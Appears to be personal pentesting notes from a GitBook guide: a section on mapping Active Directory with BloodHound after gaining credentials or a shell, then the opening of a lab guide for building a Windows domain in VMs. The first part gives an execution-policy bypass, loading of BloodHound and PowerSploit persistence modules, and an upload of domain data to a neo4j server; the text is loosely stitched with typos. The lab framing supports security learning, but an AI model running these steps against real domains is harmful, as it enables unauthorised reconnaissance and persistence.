 
### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain. Any user can query Active Directory for groups and sessions.

Now we can use that to make a cool GUI map of the entire AD which can be quirired in using BloodHound.





set up neo4j
https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/

/opt/neo4j-community-3.1.1/bin/neo4j
start neo4j and set new password
edit neo4j.conf
dbms.connector.http.enabled=true
dbms.connector.http.listen_address=0.0.0.0:7474

launch bloodhound and log in to neo4j db

powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"

kan nå laste opp powersploit moduler.
upload /path/powersploit/persistence.msl1
import-module ./persistence.msl1
Get-SecurityPackages
https://www.gitbook.com/book/chryzsh/darthsidious/details## Becoming Darth Sidious: Creating a Windows Domain (Active Directory) and hacking it

_Mad credz to **lkys37en** from the netsecfocus slack channel for getting me all into this stuff, and eventually making this guide possible._

I strongly you read every step closely, as missing out on certain things can make everything not work as it should.

### VMware or Virtualbox
- Set up a host-only network with DHCP on the host machine.
- Start whatever DHCP service you are running on your host.
- If you're using ESXI or other types of hypervisors, you  probably don't need me telling you what to do.


### Install VMs

Install the following as VMs:

- **W7**
- **W8 or 8.1**
- **W10**
- **WServer 2012 R2**
